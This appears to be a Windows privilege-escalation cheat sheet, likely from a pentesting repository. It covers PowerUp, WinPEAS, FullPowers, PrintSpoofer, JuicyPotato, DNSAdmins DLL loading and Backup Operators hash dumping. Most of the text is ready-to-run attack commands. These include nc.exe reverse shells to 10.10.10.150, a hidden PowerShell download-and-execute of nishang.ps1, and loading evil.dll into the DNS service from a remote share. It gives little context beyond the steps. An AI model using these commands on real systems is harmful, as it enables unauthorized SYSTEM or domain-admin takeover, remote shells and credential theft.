 #### PowerUp

```
Invoke-AllChecks
```

#### WinPeas
```
.\winpeas.exe cmd
```

#### FullPowers
Abuse some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` in order to obtain `SeAssignPrimaryToken` and `SeImpersonatePrivilege` tokens.
```
.\fullpw.exe -c ".\nc.exe 10.10.10.150 443 -e powershell" -z
```
#### PrintSpoofer
Escalate to SYSTEM.
The token `SeImpersonatePrivilege` is needed to escalate privileges.
```
.\pspoof.exe -c "C:\windows\temp\custom\nc.exe 10.10.10.150 443 -e powershell"
```

#### Potatoes
Like PrintSpoofer, the token `SeImpersonatePrivilege` is abused to escalate privileges.
```
# Using a CLSID, C:\tmp\root.bat contains a reverse shell
.\juicy.exe -t * -p C:\tmp\root.bat -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -l 9002

# Fileless reverse shell
.\juicy.exe -l 12345 -p C:\Window\System32\cmd.exe -t * -a "/c powershell.exe -nop -w hidden -executionpolicy bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.150/nishang.ps1')"
```
CLSID can be obtain [here](http://ohpe.it/juicy-potato/CLSID/).

#### DNS Admin Abuse
If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.

```
# Get members of the DNSAdmins group
net localgroup "DNSAdmins" /domain
# Load a malicious dll from a member of DNSAdmins context
# Stop service
sc.exe \\<DNS_SERVER> stop dns
# Replace the dll
dnscmd.exe /config /serverlevelplugindll \\10.10.10.150\share\evil.dll
# Restart the service
sc.exe \\<DNS_SERVER> start dns
```

#### Backup Operator Abuse
If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's `SeBackupPrivilege` to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.

